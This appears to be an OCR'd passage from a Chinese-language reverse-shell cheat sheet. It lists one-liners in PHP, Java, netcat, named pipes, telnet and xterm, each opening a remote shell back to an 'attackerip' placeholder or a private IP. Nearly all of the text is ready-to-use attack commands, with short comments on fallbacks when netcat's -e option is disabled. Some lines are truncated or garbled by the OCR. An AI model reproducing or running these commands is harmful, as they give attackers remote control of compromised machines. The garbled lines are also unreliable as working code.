 php -r '$sock=fsockopen("attackerip",443);exec("/bin/sh -i <&3 >&3 2>&3");'
JAVA 反弹 Shell

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
NETCAT 反弹 Shell

nc -e /bin/sh attackerip 4444
nc -e /bin/sh 192.168.37.10 443

# 如果 -e 参数被禁用，可以尝试以下命令
# mknod backpipe p && nc attackerip 443 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 443
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/

# 如果你安装错了 netcat 的版本，请尝试以下命令
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f
TELNET 反弹 Shell

# 如果 netcat 不可用或者 /dev/tcp
mknod backpipe p && telnet attackerip 443 0<backpipe | /bin/bash 1>backpipe
XTERM 反弹 Shell

# http://baike.baidu.com/view/418628.htm
# 开启 X 服务器 (:1 – 监听 TCP 端口 6001)
apt-get install xnest
Xnest :1

# 记得授权来自目标 IP 的连接
xterm -display 127.0.0.1:1

# 授权访问
xhost +targetip

# 在目标机器上连接回我们的 X 服务器
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
$ DISPLAY=attackerip:0 xterm
XSS 备忘录
